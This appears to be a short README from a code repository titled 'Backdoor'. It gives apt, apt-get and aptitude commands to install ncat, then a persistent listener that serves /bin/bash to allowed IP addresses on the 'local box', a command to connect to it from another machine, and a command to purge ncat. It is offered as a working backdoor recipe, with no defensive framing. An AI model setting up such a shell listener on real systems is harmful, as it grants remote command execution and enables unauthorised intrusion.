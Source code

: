 #Backdoor 
##Install ncat on the locat box
###Apt-get (Install)
'sudo apt-get update'
'sudo apt-get -y install ncat'

###Apt (Install)
'sudo apt update'
'sudo apt -y install ncat'

###Aptitude (Install)
'sudo aptitude update'
'sudo aptitude -y install ncat'

##Local box that will be backdoored into 
'ncat -k -nvlp <port> -e "/bin/bash" --allow <ip's go here>

##Box that will backdoor into local machine 
'ncat -nv <ip address of local box> <port> 



###If ncat needs to be deleated
'sudo apt-get -y autoremove --purge ncat'

